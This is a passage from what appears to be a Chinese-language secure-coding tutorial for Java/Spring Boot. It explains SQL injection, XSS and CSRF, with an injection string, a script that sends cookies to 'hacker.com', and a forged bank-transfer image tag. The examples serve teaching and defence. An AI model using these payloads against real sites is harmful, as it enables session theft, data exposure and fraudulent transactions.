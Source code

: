 
---

## 6. Common Security Attacks (常見攻擊)

### 6.1 SQL Injection (SQL 注入)

**攻擊方式**：
```java
// 危險的程式碼（不要這樣寫）
String username = request.getParameter("username");
String sql = "SELECT * FROM users WHERE username = '" + username + "'";
// 如果 username = "admin' OR '1'='1"
// SQL 變成: SELECT * FROM users WHERE username = 'admin' OR '1'='1'
// → 會回傳所有使用者！
```

**防禦方式**：使用 JPA 或 PreparedStatement
```java
// 安全的做法（用 JPA）
userRepository.findByUsername(username);
// Spring Data JPA 會自動處理 SQL Injection
```

### 6.2 XSS (Cross-Site Scripting)

**攻擊方式**：
```javascript
// 使用者在留言輸入
<script>
  // 偷取 Cookie 並傳送給駭客
  fetch('https://hacker.com/steal?cookie=' + document.cookie);
</script>

// 其他使用者看到這則留言時，腳本會執行
```

**防禦方式**：
```java
// Spring Boot 預設會 escape HTML
// 前端使用 React/Vue 時，也會自動 escape

// 如果要顯示 HTML，要用 sanitizer 清理
String cleanHtml = Jsoup.clean(userInput, Whitelist.basic());
```

### 6.3 CSRF (Cross-Site Request Forgery)

**攻擊方式**：
```html
<!-- 駭客網站的惡意頁面 -->
<img src="https://yourbank.com/transfer?to=hacker&amount=1000000">
<!-- 如果使用者已登入銀行網站，這個請求會成功執行 -->
```
